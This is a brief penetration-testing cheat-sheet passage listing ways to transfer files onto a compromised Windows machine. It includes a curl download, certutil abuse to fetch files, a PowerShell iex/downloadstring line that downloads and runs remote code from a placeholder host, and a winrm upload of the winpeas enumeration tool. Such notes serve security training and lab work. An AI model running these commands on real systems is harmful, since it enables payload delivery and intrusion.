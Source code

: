 Transferring files to the compromised windows machine:

- `curl -o <filename> http://<server>`
- `certutil.exe -urlcache -f http://<IP ADDRRESS>/<file name> <file name>`
- `iex(new-object net.webclient).downloadstring('http://<IP>/<filename>')`

Using winrm
`upload <full path to local file> <full path to destination>` for example `upload /home/kali/tools/winpeas.exe C:\\users\\tadi\\winpeas.exe`